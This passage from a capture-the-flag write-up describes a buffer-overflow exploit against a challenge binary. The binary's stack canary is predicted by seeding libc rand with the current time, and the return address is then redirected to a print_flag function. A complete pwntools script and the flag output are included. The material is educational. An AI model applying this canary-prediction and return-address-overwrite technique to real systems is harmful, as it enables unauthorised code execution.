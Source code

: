 Now we just need to do the buffer overflow.  The format should be:  
`28 byte buffer + canary + EBP + EIP` 

What should we jump to? Well, probably the funtion called `print_flag()'

```
0x0000000000400e9b  print_flag
```

So our final script will look like:

```python
from pwn import *
from ctypes import CDLL

io = remote('ctf.ropcity.com', 31310)
#io = process('./cookie')

t = int(time.time())
libc = CDLL('/lib/x86_64-linux-gnu/libc.so.6')

libc.srand(t)

canary = libc.rand()

for i in range((50000/1000)+1):
    io.sendline('3')

io.recvuntil('payload!')

exploit = b'A' * 28
exploit += p64(canary)
exploit += b'AAAA' #align the stack
exploit += p64(0x400e9b)*50

io.sendline(exploit)
```

And running it we get the flag!

```
$ python2 exploit.py
[+] Opening connection to ctf.ropcity.com on port 31310: Done
[*] Switching to interactive mode

osu{LAnC3_3a7s_0AtM3AL_ra1s1n}
```

A great challenge :)
